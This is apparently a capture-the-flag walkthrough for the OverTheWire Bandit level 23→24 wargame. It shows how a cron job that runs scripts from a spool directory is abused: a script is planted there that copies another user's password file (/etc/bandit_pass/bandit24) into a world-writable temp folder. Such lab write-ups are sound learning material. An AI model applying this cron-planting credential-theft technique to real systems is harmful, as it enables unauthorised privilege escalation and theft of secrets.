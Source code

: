 basically, i was stuck at this level.

So, i learned how to do it.

1. create a temporary directory where we will be storing the copy of our script

```shell
mkdir /tmp/lvl24
```

to avoid "permission denied" errors and getting frustated like me at the end about what went wrong, change the permissions of the newly created directory

```shell
chmod 777 /tmp/lvl24
```

> coming to the script...lets look at this file in /etc/cron.d

```shell
bandit23@bandit:/etc/cron.d$ cat * 2>/dev/null | grep bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ ls -lha /usr/bin/cronjob_bandit24.sh
-rwxr-x--- 1 bandit24 bandit23 395 Apr 23 18:06 /usr/bin/cronjob_bandit24.sh
bandit23@bandit:/etc/cron.d$ 
```
by reading the contents of the above file you will come across a script, where in you find that all the files in a certain directory whose owner is bandi23 are being executed and deleted periodically, and bandit24 user executes that file

so what we can do is that, write a script that can read the pass file for level 24 which is stored in /etc/bandit_pass/
bandi24 to the newly created directory

contents of the script file

```bash
#! /bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/lvl24/pass.txt

```


>make the script executable

```shell
chmod 777 script.sh
```

we need to put this in the directory that is mentioned in the script
>/usr/bin/cronjob_bandit24.sh

```bash
cp /tmp/lvl24/script.sh /var/spool/bandit24/foo
```
after a min, you will see pass.txt in your newly created directory which contains the pass to next level